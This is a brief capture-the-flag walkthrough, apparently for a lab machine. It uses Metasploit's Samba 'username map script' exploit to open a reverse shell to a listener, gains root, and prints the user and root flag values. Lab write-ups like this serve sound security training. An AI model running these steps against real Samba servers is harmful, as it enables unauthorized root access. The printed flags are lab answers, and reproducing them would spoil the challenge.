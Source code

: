 ## Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)

* `use multi/samba/usermap_script`

```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.16.8:4444 
[*] Command shell session 1 opened (10.10.16.8:4444 -> 10.10.10.3:37132 ) at 2022-04-18 11:13:54 -0400
```

* `whoami`
`root`

* `cat /home/makis/user.txt`
`2353c1ac720579703a8a4135cabe0f9d`

* `cat ~/root.txt`
`8b79baf14a9810d24913e6023687504d`

